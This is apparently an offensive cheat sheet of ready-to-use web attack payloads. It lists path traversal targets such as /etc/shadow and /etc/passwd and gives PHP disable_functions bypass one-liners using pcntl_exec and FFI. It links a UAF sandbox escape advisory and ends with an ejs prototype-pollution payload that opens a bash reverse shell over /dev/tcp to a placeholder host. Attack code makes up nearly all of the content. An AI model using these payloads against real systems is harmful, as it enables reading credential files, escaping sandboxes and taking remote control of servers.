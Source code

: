 ##  Path Traversal

### Ubuntu
```txt
/etc/passwd
/etc/issue
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/proc/self/exe
/proc/net/arp
/proc/net/route
```

### Node 
```txt
package.json
```

---
## disable_functions bypass

### Using a pcntl_exec function
```php
<?php pcntl_exec('/bin/bash',['-c','ls']);?>
```

### Using a FFI
```php
PHP Version : 7.4.X 
Condition   : FFI Enable
<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'ls\');?>
```

### Using an UAF Sandbox Escape

[https://ssd-disclosure.com/ssd-advisory-php-spldoublylinkedlist-uaf-sandbox-escape/](https://ssd-disclosure.com/ssd-advisory-php-spldoublylinkedlist-uaf-sandbox-escape/)

---
## Pollution Stuff in ejs module

### outputFunctionName (Well known)

```javascript
const express =  require('express');
const app = express();

app.set('views', __dirname + '/template');
app.set('view engine', 'ejs');

Object.prototype.outputFunctionName = "_; process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/domain/port 0>&1'`);//"

app.get('/', (req, res) => {
    res.render('index.ejs');
});

app.listen(3333);
```
